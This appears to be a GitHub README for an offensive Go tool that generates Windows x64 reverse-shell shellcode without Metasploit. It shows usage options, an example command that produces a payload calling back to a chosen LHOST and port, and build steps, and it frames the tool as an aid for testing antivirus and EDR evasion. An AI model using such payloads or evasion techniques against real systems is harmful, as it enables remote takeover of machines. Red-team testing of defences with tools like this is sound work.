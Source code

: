 # shell_reverse_tcp
msfvenom windows/x64/shell_reverse_tcp payload generator without dependencies

# Help

```
$ ./shell_reverse_tcp -h
Usage of ./shell_reverse_tcp:
  -f string
        Formats: {raw, hex, base64, c, python, rust, csharp, psh, vba} (default "raw")
  -l string
        LHOST IP address (default "127.0.0.1")
  -p int
        Port number (0-65535) (default 4444)
```

## Example

```
$ ./shell_reverse_tcp -l 192.168.1.2 -p 4444 -f raw > shellcode.bin
```

# Build

```bash
git clone https://github.com/nchgroup/shell_reverse_tcp
cd shell_reverse_tcp/
go build .
```

# Project spirit
Generate your payload in x64 quickly and easily without dependencies to perform AV/EDR evasion tests on Windows in amd64, so you can use encoders, ciphers, obfuscators, whatever.

# References
* https://vay3t.medium.com/malware-development-generando-shellcodes-de-metasploit-sin-metasploit-aa120ffcdd92
* https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/windows/x64/shell_bind_tcp.rb#L47
* https://github.com/vay3t/asm-shell_reverse_tcp

# Authors
* [Huerfano](https://www.linkedin.com/in/leonardo-astorga-20b1095a/)
* [Vay3t](https://vay3t.org)
